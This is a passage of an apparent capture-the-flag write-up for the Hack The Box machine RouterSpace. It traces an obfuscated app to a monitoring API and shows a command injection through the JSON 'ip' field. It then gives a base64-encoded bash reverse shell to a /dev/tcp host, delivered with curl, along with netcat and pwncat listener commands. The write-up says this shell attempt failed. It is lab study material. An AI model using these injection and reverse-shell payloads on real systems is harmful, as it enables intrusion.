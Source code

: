 ```
  OLDvc: 'transparent',
  gKQYs: 'Check Status',
  YnNsf: 'bottom',
  GHjuW: '0.0.0.0'
}
```

As we can see under the `EwCVL` key there is the URL the app tries to access. So, the code `searchSelect2(249) + searchSelect2(192) + searchSelect2(156) + searchSelect2(205) + searchSelect2(195) + searchSelect2(161) + searchSelect2(238)` evaluates to `http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess`.

We can figure out that `searchSelect2(241)` evaluates to `EwCVL`, which means `data[searchSelect2(241)]` evaluates to the URL.

After simplifying the code and evaluating a lot of the calls to `searchSelect2` in [code_5.js](reversing_app/code_5.js), we see that the app performs a post request to `http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess` with the headers `User-Agent: RouterSpaceAgent` and `Content-Type: application/json`. The app sends at least one key value pair as JSON. We know that the key is `ip` since the app checks to make sure it is not `0.0.0.0`.

### API

Trying to make the same request as the app does, we write the following:

```
curl -X POST -H "User-Agent: RouterSpaceAgent" -H "Content-Type: application/json" --data '{"ip": "0.0.0.0"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess
```

This just returns our input, `0.0.0.0`, back to use.

Next, we try a command injection:

```
curl -X POST -H "User-Agent: RouterSpaceAgent" -H "Content-Type: application/json" --data '{"ip": ";whoami"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess
```

This returns `"\npaul\n"`. So, we have a command injection!

## Foothold

### Revere Shell (Didn't Work)

In theory, we can exploit this command injection with a basic `bash` reverse shell. Start a listener with netcat (`nc -nvlp 58437`) or `pwncat` (`pwncat-cs -lp 58437`). Then, we can encode the reverse shell `bash -i >& /dev/tcp/10.10.15.49/58437 0>&1` to base64 with `echo -n "bash -i >& /dev/tcp/10.10.15.49/58437 0>&1" | base64` to get `YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40OS81ODQzNyAwPiYx`. We encode to base64 to remove illegal characters. Now, our payload is `;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40OS81ODQzNyAwPiYx | base64 -d | bash` (we need to `;` at the front so we can run it after whatever command is being run).

We can use `curl` to execute our payload by running the following command:

```
curl -X POST -H "User-Agent: RouterSpaceAgent" -H "Content-Type: application/json" --data '{"ip": ";echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS40OS81ODQzNyAwPiYx | base64 -d | bash"}' http://routerspace.htb/api/v4/monitoring/router/dev/check/deviceAccess
```
